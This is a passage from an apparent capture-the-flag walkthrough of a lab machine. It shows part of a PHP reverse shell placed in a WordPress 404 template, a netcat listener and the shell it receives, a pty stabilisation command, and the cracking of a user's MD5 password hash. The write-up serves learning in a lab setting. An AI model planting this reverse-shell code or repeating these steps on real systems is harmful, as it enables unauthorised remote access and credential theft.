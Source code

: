  ```php
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
I changed the ip_address with my system ip and then set up a netcat listener on port 4000.
```bash
┌──(cryptoish㉿kali)-[~/Downloads]
└─$ nc -lvnp 4000
``` 
Upon editing 404.php file I typed some random path like 456 which gave page not found error triggering my revshell code. After succesfull triggering of my code I got shell.
```bash
┌──(cryptoish㉿kali)-[~/Downloads]
└─$ nc -lvnp 4000                                        
listening on [any] 4000 ...
connect to [10.17.83.219] from (UNKNOWN) [10.10.147.38] 60188
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 19:21:17 up 37 min,  0 users,  load average: 0.00, 0.06, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
```
Now, let's stabalize the shell by executing simple python command: 
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Then we moved to the home directory of robot and list the content with `ls -la` command. Uhh! we find the key but when tried to read the content it gave permission denied. But we also found `password.raw-md5` file where it has md5 hashed password of robot. Let's go to `crackstation.net` and paste the hash. There we found password of robot as `abcdefghijklmnopqrstuvwxyz`
